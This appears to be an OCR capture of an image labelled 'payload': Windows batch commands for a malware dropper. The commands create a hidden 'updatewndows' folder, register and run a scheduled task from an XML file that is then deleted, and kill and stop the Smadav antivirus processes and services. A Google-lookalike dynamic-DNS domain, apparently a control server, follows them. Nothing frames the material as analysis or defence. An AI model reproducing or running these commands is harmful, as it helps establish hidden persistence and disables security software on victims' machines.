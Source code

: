 # payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update

taskkill /F /IM SMΔRTP.exe

sc query | find "SMΔRTP"

sc query type= service state= all | findstr /C:"SERVICE_NAME:" /C:"SMΔRTP" /C:"SmadavProtect32" | findstr /V /C:"SmadAV" /C:"SmadavProtect32" | findstr /V /C:"SERVICE_NAME" | for /F "tokens=2" %i in ('more') do sc stop %i


googleapp.bounceme.net
